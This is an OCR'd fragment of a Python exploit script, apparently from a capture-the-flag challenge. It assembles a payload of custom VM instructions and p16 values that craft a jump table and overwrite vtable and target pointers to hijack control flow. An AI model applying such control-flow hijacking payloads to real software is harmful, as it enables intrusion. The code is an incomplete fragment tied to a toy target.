 ```py
payload += _lda(0x16) # 0x1c
payload += _tat()
payload += _lda(0x14) 
payload += _stt()

payload += _lda(0x1a)
payload += _tat()
payload += _lda(0x18)
payload += _stt()

######################## craft jumptable

payload += _jmp(0x56) # 0x54
payload += p16(0x6e) # 0x56

payload += p16(0x1008) # 0x58 # heap
payload += p16(0x100a) # 0x5a
payload += p16(0x100c) # 0x5c

payload += p16(0x0) # 0x5e # vtable
payload += p16(0x2) # 0x60
payload += p16(0x4) # 0x62

payload += p16(0x4000) # 0x64 # target
payload += p16(0x4002) # 0x66
payload += p16(0x4004) # 0x68

payload += p16(0x2020) # 0x6a # off _start
payload += p16(0x3ff8) # 0x6c # off heap
#

payload += _ldc(0x0) # 0x6e
payload += _sbc(0x6a)
payload += _tat()
payload += _lda(0x64)
payload += _stt()
payload += _lda(0x2)
payload += _tat()
payload += _lda(0x66)
payload += _stt()
payload += _lda(0x4)
payload += _tat()
payload += _lda(0x68)
payload += _stt()

payload += _ldc(0x58)
payload += _ldi()
payload += _adc(0x6c)
payload += _tat()
payload += _lda(0x5e)
payload += _stt()

payload += _lda(0x5a)
payload += _ldi()
payload += _tat()
payload += _lda(0x60)
payload += _stt()

payload += _lda(0x5c)
payload += _ldi()
payload += _tat()
payload += _lda(0x62)
payload += _stt()
```